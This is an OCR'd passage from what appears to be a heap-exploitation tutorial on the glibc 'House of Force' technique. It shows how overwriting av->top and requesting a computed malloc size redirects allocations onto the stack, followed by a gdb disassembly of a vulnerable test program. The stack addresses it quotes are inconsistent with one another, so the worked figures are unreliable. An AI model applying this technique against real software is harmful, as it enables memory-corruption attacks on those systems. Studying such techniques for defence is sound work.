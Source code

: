 But... How hack "av->top"?

   victim = av->top;
   remainder = chunk_at_offset(victim, nb);
   av->top = remainder;

"victim" get address of the current Wilderness chunk, that in a normal
case we could see so as: 

   PTR1 = [ 0x80c2688 ]

   0x80bf550 <main_arena+48>:   0x080c2788

As we can see, "remainder" is exactly the sum of this address plus the
number of bytes requested by "malloc ()". This amount must be controlled
by the designer as mentioned above.

Then, if EIP is "0xbffff22c", the address that we want placed at remainder
(which will goes direct to "av->top") is actually this: "0xbfffff24". And
now we know where this "av->top". Our number of bytes to request are:

    0xbffff224 - 0x080c2788 = 3086207644

I exploited the program with "3086207636", which again, is due to the
difference between the position of the chunk and data area of Wilderness.

Since that time, "av->top" contain our altered value, and any request that
triggers this piece of code, get this address as its data zone. Everything
that is written will destroy the stack.

GLIBC 2.7 do the next:

      ....
      void *p = chunk2mem(victim);
      if (__builtin_expect (perturb_byte, 0))
	alloc_perturb (p, bytes);
      return p;

Let's to go:

[-----]

blackngel@linux:~$ gdb -q ./hof
(gdb) disass fvuln
Dump of assembler code for function fvuln:
0x080481f0 <fvuln+0>:   push   %ebp
0x080481f1 <fvuln+1>:   mov    %esp,%ebp
0x080481f3 <fvuln+3>:   sub    $0x28,%esp
0x080481f6 <fvuln+6>:   movl   $0x100,(%esp)
0x080481fd <fvuln+13>:  call   0x804d3b0 <malloc>
..........
..........
0x08048225 <fvuln+53>:  call   0x804e710 <strcpy>
..........
..........
0x08048243 <fvuln+83>:  call   0x804d3b0 <malloc>
0x08048248 <fvuln+88>:  mov    %eax,-0x8(%ebp)
0x0804824b <fvuln+91>:  movl   $0x100,(%esp)
0x08048252 <fvuln+98>:  call   0x804d3b0 <malloc>
..........
..........
0x08048270 <fvuln+128>: call   0x804e7f0 <strncpy>
0x08048275 <fvuln+133>: leave  
0x08048276 <fvuln+134>: ret    
End of assembler dump.
